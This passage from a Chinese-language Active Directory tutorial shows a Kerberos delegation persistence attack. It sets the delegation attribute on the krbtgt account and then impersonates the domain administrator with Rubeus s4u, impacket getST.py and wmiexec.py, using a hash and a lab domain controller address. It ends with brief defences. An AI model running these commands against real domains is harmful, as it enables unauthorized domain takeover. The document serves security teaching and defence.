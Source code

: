 `$SD.GetBinaryForm($SDBytes, 0)`

`Set-DomainObject krbtgt -Set @{'msds-
allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose`

可以看到brbtgt的msds-allowedtoactonbehalfofotheridentity会包含有效字段。

![](https://gitee.com/fuli009/images/raw/master/public/20210804091133.png)

 **1.使用rubeus伪造administrator请求TGT**

Rubeus.exe s4u /user:win10system$ /rc4:6C4FD556DB12BE51BACD9A3CC19D486E
/impersonateuser:administrator /msdsspn:krbtgt /ptt

![]()

klist查看缓存票证

![](https://gitee.com/fuli009/images/raw/master/public/20210804091135.png)

访问域控

![](https://gitee.com/fuli009/images/raw/master/public/20210804091136.png)

 **2.同样的也能用impacket套件**

`python3 getST.py -dc-ip 192.168.228.10 -spn krbtgt -impersonate administrator
hiro.com/win10system$:win10`

`set KRB5CCNAME=administrator.ccache`

`python3 wmiexec.py -no-pass -k administrator@WIN-KONG.hiro.com -dc-ip
192.168.228.10`

* * *

##  

##  **防御：**

 **  
**

1. **高权限账号设置禁止委派属性**

![]()

2.微软推出了 **protected users组，组内用户不允许被委派** ，适用于Windows Server 2016，Windows Server
2012 R2、 Windows Server 2012

![](https://gitee.com/fuli009/images/raw/master/public/20210804091137.png)

3.kerberos预认证不使用DES或RC4等加密算法（ **尽量使用AES256** ）同样能够预防`Kerberoast`攻击

![]()

 **推荐阅读**

